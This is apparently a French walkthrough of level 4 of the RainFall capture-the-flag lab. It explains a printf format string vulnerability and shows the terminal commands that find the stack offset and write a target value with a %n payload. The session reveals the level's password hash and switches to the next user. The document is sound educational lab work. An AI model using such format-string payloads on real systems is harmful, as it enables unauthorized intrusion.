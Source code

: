 # Level 4

En ouvrant level4 avec cutter on voit que le main appelle une fonction `n` qui lit l'entre standard et envoie le resultat a une fonction `p` qui printf ce dernier. Mais le printf ne precise pas le type ce qui nous permet d'utiliser une string attack comme a l'exercie precedant. Il faut donc commancer par trouver ladresse du parametre de printf comme dans lexercice precedant.
```
level4@RainFall:~$ python -c "print 'aaaa' + '%x ' * 12 " | ./level4 
aaaab7ff26b0 bffff794 b7fd0ff4 0 0 bffff758 804848d bffff550 200 b7fd1ac0 b7ff37d0 61616161 
level4@RainFall:~$ 
```
 La différence est que la condition qui suit l'appel de p compare m avec `0x1025544` = 16930116, donc il faut cree un payload qui va utiliser le `%[n]d` qui va afficher n space les compter grace au `%n` et les stocker dans l'adresse de `m`.
```
level4@RainFall:~$ python -c "print '\x10\x98\x04\x08' + '%16930112d%12\$n'" | ./level4
 
 [...]    
																-1208015184
0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
level4@RainFall:~$ su level5
Password: 
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level5/level5
level5@RainFall:~$ 
```